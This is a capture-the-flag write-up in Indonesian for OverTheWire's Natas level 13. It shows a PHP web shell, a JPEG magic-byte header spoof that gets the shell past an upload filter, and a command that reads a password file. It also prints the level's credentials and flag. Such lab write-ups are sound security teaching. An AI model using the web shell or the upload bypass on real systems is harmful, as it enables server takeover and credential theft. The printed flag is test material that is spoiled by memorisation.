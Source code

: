 ```yaml
---
layout: default
test_level13
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas13 \
URL:      http://natas13.natas.labs.overthewire.org

# solve
- login with cred natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
- di soal kali ini kita harus memaasukan file jenis jpg jika tidak itu akan ditolak jadi saya mencoba dengan jpg dibawah 1k byte, 
  dan php terlebih dahulu
  ![alt text](docs/images/image-29.png)
  ![alt text](docs/images/image-28.png)
- saya mencoba melakukan bypass dengan mengubah hexeditor
  ```bash
  cp simple.php simple-bypass.php
  file simple-bypass.php 
  # simple-bypass.php: PHP script, ASCII text
  file 680b.jpg 
  # 680b.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 300x300, segment length 16, baseline, precision 8, 10x10, components 3

  xxd 680b.jpg 
  00000000: ffd8 ffe0 0010 4a46 4946 0001 0101 012c  ......JFIF.....,

  ## kita akan mengambil header byte dari jpeg ini ke php
  ## kita perlu menambahkan beberapa teks untuk mempermudah mengubahnya

  cat simple-bypass.php 
  ##########
  <?php echo system($_GET['c']); ?>

  hexeditor simple-bypass.php
  ```
- dan kita edit hex nya samakan dengan hex header jpeg
  ![alt text](docs/images/image-30.png)
- menjadi seperti ini
  ![alt text](docs/images/image-31.png)
- dan simpan dengan ctrl x
- jika sudah kita bisa coba untuk cek lagi apakah filenya sudah benar
  ```
  file simple-bypass.php 
  simple-bypass.php: JPEG image data, JFIF standard 60.63, density 26736x8293, segment length 16, thumbnail 99x104
  ```

## uplooad the file
- lalu saya mencooba mengupload filenya dan menintercept di brute dan mengubah lagi namanya
  ![alt text](docs/images/image-32.png)
  ![alt text](docs/images/image-33.png)
  ![alt text](docs/images/image-34.png)
  - ```?c=cat /etc/natas_webpass/natas14```

# flag
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ